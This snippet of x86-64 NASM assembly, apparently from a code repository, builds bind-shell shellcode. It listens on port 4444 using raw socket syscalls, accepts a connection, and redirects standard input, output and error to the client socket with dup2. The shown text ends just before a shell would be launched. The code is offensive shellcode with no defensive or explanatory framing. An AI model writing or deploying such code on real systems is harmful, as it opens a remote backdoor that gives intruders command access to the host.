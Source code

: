 ```nasm

	; server.sin_family = AF_INET
	; server.sin_port = htons(PORT)
	; server.sin_addr.s_addr = INADDR_ANY
	; bzero(&server.sin_zero, 8)

	xor rax, rax

	push rax

	mov dword [rsp - 4], eax
	mov word [rsp - 6], 0x5c11
	mov word [rsp - 8], 0x2
	sub rsp, 8

	; bind(sock, (struct sockaddr *)&server, sockaddr_len)
	; syscall number 49
	mov rax, 49
	
	mov rsi, rsp
	mov rdx, 16
	syscall

	; listen(sock, MAX_CLIENTS)
	; syscall number 50
	mov rax, 50
	mov rsi, 2
	syscall

	; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
	; syscall number 43

	mov rax, 43
	sub rsp, 16
	mov rsi, rsp
	mov byte [rsp - 1], 16
	sub rsp, 1
	mov rdx, rsp

	syscall

	; store the client socket description
	mov r9, rax
	
	; close parent
	mov rax, 3
	syscall

	; duplicate sockets
	; dup2 (new, old)
	mov rdi, r9
	mov rax, 33
	mov rsi, 0
	syscall

	mov rax, 33
	mov rsi, 1
	syscall

	mov rax, 33
	mov rsi, 2
	syscall

```